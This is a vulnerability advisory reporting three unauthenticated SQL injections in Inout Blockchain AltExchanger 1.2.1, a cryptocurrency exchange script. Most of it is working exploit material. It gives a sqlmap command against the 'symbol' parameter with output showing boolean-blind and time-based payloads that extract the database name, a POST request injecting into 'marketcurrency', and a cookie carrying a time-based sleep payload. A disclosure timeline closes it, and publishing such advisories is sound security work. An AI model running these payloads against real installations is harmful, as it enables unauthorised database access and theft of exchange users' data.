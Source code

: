 # Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## 1- Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db
`
<br>

### output:
`
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'
`
<br>
<img src="./resources/Blockchain-AltExchanger-121-sqli-1.png">
<br>

## 2- Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: /index.php/coins/update_marketboxslider

<br>

### HTTP Request:
----------------------------------------------------
`
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive
displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
`
----------------------------------------------------

<br>

## 3- Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File: /index.php

<br>

### HTTP Request:
----------------------------------------------------
`
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive
`
----------------------------------------------------

<br>

## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
